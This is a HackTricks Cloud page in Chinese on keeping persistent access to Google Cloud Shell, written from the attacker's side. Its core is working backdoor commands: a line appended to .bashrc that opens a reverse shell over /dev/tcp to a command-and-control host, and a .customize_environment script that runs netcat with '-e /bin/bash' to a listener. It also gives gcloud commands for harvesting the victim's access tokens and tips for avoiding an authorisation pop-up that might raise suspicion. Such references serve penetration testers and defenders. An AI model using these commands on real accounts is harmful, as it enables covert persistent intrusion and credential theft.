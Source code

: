 # GCP - 云 Shell 持久性

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS 红队专家）</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想看到您的**公司在 HackTricks 中做广告**或**下载 PDF 版的 HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 探索[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或在 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** 上关注我们**。
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **提交 PR 来分享您的黑客技巧**
*
*
*
* github 仓库。

</details>

## 云 Shell

有关更多信息，请查看：

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### 持久后门

[**Google 云 Shell**](https://cloud.google.com/shell/) 为您提供了直接从浏览器访问云资源的命令行访问权限，而无需任何相关费用。

您可以从**网络控制台**或运行**`gcloud cloud-shell ssh`**来访问 Google 的云 Shell。

对于攻击者来说，这个控制台具有一些有趣的功能：

1. **任何具有访问 Google 云权限的 Google 用户**都可以访问一个完全经过身份验证的云 Shell 实例（即使是组织的所有者也可以）。
2. 该实例将在**至少 120 天内保留其主目录**，如果没有任何活动发生。
3. **组织无法监视**该实例的活动。

这基本上意味着，攻击者可以在用户的主目录中放置一个后门，只要用户每 120 天至少连接到 GC Shell 一次，后门就会存活，攻击者每次运行时都会获得一个 shell，只需执行：
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

在主目录中还有一个名为**`.customize_environment`**的文件，如果存在，将在用户访问**云shell**时**每次执行**（就像在上一个技术中一样）。只需插入前面的后门或类似以下内容的后门，即可在用户**频繁**使用云shell时保持持久性：
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
重要提示：**第一次执行需要身份验证的操作时**，用户浏览器中会弹出授权窗口。必须在命令运行之前接受此窗口。如果出现意外弹窗，可能引起怀疑并潜在地危及正在使用的持久性方法。
{% endhint %}

这是在浏览器用户会话中查看作为攻击者执行`gcloud projects list`时出现的弹窗：

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

然而，如果用户已经积极使用了云shell，则不会出现弹窗，您可以**收集用户的令牌**：
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH连接是如何建立的

基本上，使用了以下3个API调用：

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST\]（将让您添加本地创建的公钥）
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST\]（将让您启动实例）
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET\]（将告诉您Google Cloud Shell的IP）

但您可以在[https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)找到更多信息。

## 参考资料

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)
